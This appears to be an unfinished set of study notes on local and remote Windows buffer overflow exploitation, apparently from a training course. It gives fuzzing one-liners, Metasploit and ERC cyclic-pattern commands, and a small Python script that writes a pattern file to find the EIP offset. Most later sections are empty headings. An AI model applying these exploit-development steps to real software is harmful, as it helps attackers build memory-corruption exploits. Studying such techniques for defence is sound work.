 # Local Buffer Overflow
## Fuzzing

```
python -c "print('A'*10000)"
python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"
```

## Controlling EIP

### Creating Unique Pattern

```
/usr/bin/msf-pattern_create -l 5000
```

```
ERC --pattern c 5000
```

### Exploit

win32bof_exploit.py

```
def eip_offset():
	payload = bytes("Aa0Aa1Aa2Aa3Aa4Aa5...Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk", "utf-8")

	with open('pattern.wav', 'wb') as f:
		f.write(payload)

eip_offset()
```

### Calculating EIP Offset

```
/usr/bin/msf-pattern_offset -q 31684630
```

```

```
## Indetyfing Bad Characters





## Finding a Return Instruction



## Jumping to Shellcode



# Remote Buffer Overflow

## Remote Fuzzing




## Building a Remote Exploit



## Remote Exploitation